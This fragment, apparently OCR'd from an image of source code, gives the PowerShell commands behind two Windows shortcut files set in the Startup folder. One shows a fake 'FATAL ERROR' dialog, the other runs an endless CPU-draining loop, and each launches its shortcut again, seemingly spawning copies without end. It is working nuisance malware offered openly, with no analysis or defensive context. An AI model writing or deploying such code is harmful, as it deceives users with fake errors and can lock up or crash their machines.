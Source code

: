 1.LNK generates error messages 
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe Add-Type -Assembly PresentationFramework;[Windows.MessageBox]::Show('An error has occurred.','FATAL ERROR','0','48');ii C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\1.lnk

2.LNK drains CPU 
powershell ii C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\2.lnk; while($true){$result=1+1}

